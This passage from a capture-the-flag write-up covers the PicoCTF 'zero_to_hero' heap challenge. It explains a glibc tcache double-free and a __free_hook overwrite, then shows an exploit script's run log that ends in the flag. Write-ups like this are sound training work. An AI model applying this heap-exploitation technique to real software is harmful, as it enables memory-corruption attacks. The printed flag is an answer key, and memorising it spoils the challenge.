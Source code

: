 5. Now that the next block points to our overwritten memory location, we `malloc` it. `malloc` sees our request for a block of memory with size 0x110 and returns the pointer to the next block, which we overwrote to `__free_hook`. `malloc` then asks what value we want to store in this "block of memory" (which is actually `__free_hook`). We tell is to store the address of `win()`. We have successfully written over an address of our choosing with an arbitrary address. `malloc` believes we simply asked for a block of memory, it gave us one, and then we stored our data in it. You can think of this as `malloc` being oblivious to our attack.
6. Run the [script.py](script.py) `python2 script.py` and get the flag:

    ```
    [*] '~/Documents/PicoCTF/Binary Exploitation/zero_to_hero/zero_to_hero'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        RUNPATH:  './'
    [+] Opening connection to 2019shell1.picoctf.com on port 49928: Done
    [*] Leaked Libc: 0x7f04720c2a80
    [*] `malloc` chunk A, size 0x30
    [*] `malloc` chunk B, size 0x110
    [*] `free` chunk B
    [*] `free` chunk A, so we can write to it and overflow it next
    [*] `malloc` (for the second time) chunk A, size 0x30; overwrite size of chunk B with null byte
    [*] `free` chunk B again (double `free` conditions met)
    [*] `malloc` chunk of size 0x100 and overwrite the forward address to `__free_hook`
    [*] `malloc` the same (as above) chunk but from the list for size 0x110, thus removing it from the list and leaving the next chunk pointer pointing at `__free_hook`
    [*] Use `malloc` to write the address of `win()` to `__free_hook`
    [*] Execute the `win()` function at 0x400a02
    [+] picoCTF{i_th0ught_2.29_f1x3d_d0ubl3_fr33?_jmvqjcus}
    [*] Closed connection to 2019shell1.picoctf.com port 49928
    ```


### Flag

`picoCTF{i_th0ught_2.29_f1x3d_d0ubl3_fr33?_jmvqjcus}`
